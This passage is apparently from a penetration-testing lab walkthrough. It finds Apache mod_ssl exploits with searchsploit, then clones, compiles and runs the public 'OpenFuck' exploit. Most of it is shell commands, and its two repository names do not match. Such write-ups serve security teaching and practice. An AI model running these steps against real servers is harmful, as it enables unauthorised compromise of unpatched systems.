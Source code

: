 But I have not been able to access any directory since I am redirected to local urls of the machine.
After searching with searchsploit for the Apache version we get the following result:

![Untitled](Untitled%206.png)

We are interested in the exploits with mod_ssl, but they give errors when compiling, so we have searched for the version of apache and mod_ssl in Google looking for exploits and found the following GitHub page with the modified .c file which does not give compilation problems.

```bash
https://github.com/heltonWernik/OpenLuck
```

Clone the repository on our machine:

```bash
git clone https://github.com/heltonWernik/OpenFuck.git
```

Install the necessary libraries:

```bash
apt-get install libssl-dev
```

Compiled

```bash
gcc -o OpenFuck OpenFuck.c -lcrypto
```
### Explotation

We run the  exploit

```bash
./OpenFuck
```
